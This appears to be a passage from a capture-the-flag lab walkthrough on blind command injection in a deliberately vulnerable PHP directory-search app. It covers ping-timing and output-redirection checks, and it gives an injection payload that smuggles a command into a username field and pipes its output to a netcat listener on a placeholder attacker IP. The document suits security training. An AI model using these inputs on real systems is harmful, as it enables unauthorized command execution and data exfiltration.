 Blind command injection occurs when the system call that's being made does not return the response of the call to the Document Object Model (or DOM).  The DOM is where the HTML is rendered.  This walkthrough isn't about web development so for the purposes of this room, you can consider the DOM the canvas of an HTML document.

Sometimes the user inputs a test command to try to see if the server is vulnerable to command injection, the command is executed by the server-side code on the server and the code doesn't output the response.  For example, let's look at the code for the Directory Search application that Evil Corp developed.  It's very poorly written and is vulnerable to blind command injection.  See if you can figure out why before continuing on.  I'll explain it below.

**Directory Search (index.php) Code Example**

![](https://i.imgur.com/lB8diiC.png)

In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "username" is set
2. If it is, then the variable `$username` gets what was passed into the input field
3. The variable `$command` gets the system command `"awk -F: '{print $1}' /etc/passwd | grep $username";` where `$username` is what was entered in step 2.  This command is printing out the list of users from `/etc/passwd` and then selecting the one that was entered.  Note that this is not executing anything yet.
4. Variable `$returned_user` then gets the result/return value of the function `exec($command)`.

The rest of the code is fairly straightforward; set `$result` to a Bootstrap danger alert class if nothing was found in `/etc/passwd` and a success alert class if something was found.  Easy-peasy.

**Ways to Detect Blind Command Injection**

As I mentioned above, blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

**Ping!**

Yes, your friend ping can help you tell whether you have blind command injection or not.  Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If you send 20(!) packets, it should take about 20 seconds, and so on.

**Redirection of Output**

Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the > Bash operator redirects output to a file or process so you could try redirecting the output of id, whoami, netstat, ip addr or other useful command to see if you can see the results.

**Bypassing the Blind Injection with Netcat**

In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like `root; ls -la | nc {VPN_IP} {PORT}` . This will send the output of `ls -la` to your netcat listener.

